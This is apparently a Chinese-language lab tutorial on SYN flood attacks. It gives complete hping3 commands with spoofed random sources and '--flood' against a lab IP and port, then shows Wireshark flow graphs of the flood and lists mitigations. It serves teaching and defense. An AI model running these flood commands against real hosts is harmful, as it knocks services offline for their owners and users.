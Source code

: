 1.  使用Hping发起SYN Flooding攻击

我们先来一次简单的SYN FLOOD攻击：

(1)查看被攻击主机的IP和端口信息:ifconfig/all 获取IP

(2)netstat -ano 获取开放端口,最好找那些处于listenning的端口

(3)然后kali上输入:hping3 -S -p 135 --flood -V --rand-source 192.168.1.2

\-S表示采用SYN半连接方法

\--flood 尽可能快的发送数据包

\--rand-source 表示伪造IP地址

\-V 启用详细输出

(4)执行上述命令后在目标机上打开任务管理器

(5)查看CPU的利用率，你会发现明显提高了

1.我们采用Kali Linux
2中自带的hping3来进行一次拒绝服务攻击。这是一款用于生成和解析TCP/IP协议数据包的开源工具,之前推出过hping和hping2两个版本,目前最新的版本是hping3,利用这款工具我们可以快速定制数据包的各个部分,
hping3也是一个命令式的工具,其中的各种功能要依靠设置参数来实现。启动hping3的方式就是在Kali
Linux2中启动一个终端,然后输入"hping3 "即可.

root@kali:-\# hping3

hping3\>

2.现在我们就利用刚刚介绍过的hping3参数来构造一次基于TCP协议的拒绝服务攻击。在Kali
Linux 2中打开一个终端,然后在终端中输入:

hping3 -q -n --rand-source -S -p 80 --flood 目标IP

3\. 这时攻击就开始了,在这个过程中可以随时使用Ctrl+C组合键来结束这次攻击

1.  WireShark的流量图功能

2.  查看流量图

![](media/86648fac2c26fd1c7689a834d9eb880a.png)

1.  左下角，的限制显示过滤器，勾上后会显示使用显示过滤器过滤后的包

![](media/624642b556892732c3e72afdf65c5b56.png)

1.  以下为正常的tcp流

![](media/54b7aea6453236a8f58c345c6767bd6d.png)

1.  syn泛洪攻击的流，可以看到没有应答的包

![](media/21652f75ab38f5b476d002c5a7b0d073.png)

1.  SYN Flooding攻击解决方案

(1)丢弃第一个SYN数据包

(2)反向探测

(3)代理模式
